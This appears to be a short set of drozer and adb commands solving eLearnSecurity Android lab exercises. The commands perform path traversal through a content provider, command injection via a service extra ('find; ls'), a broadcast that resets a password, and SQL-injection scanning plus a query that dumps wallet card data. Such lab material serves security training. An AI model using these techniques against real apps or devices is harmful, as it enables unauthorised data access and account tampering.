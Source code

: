
FileBrowser Path Traversal 
```
dz> run scanner.provider.traversal -a com.els.filebrowser
dz> run app.provider.read content://com.els.filebrowser/../../../proc/cpuinfo
```



LeakResult Bypass
```
$ adb shell logcat

dz> run app.activity.start --component com.elearnsecurity.insecureactivities com.elearnsecurity.insecureactivities.LeakyActivity


adb shell am start -n com.elearnsecurity.insecureactivities/.LeakyActivity
```




SillyService Command Injection
```
adb shell am startservice –n com.elearnsecurity.sillyservice/.SillyService –e "COMMAND" "find; ls"
```



VulnerableReceiver BroadcastReceiver
```
dz > run app.broadcast.send --action com.elearnsecurity.vulnerablereceiver.CHANGEPW --component com.elearnsecurity.vulnerablereceiver com.elearnsecurity.vulnerablereceiver.VulnerableReceiver --extra string PASSWORD "hacked"



am broadcast -a com.elearnsecurity.vulnerablereceiver.CHANGEPW -e PASSWORD "hacked"
```



WeakWallet Sql Injection
```
dz> run scanner.provider.injection -a com.elearnsecurity.weakwallet
dz> run scanner.provider.finduris -a com.elearnsecurity.weakwallet
dz > run app.provider.query content://com.elearnsecurity.provider.Wallet/cards


adb shell content query --uri content://com.elearnsecurity.provider.Wallet/cards/
```

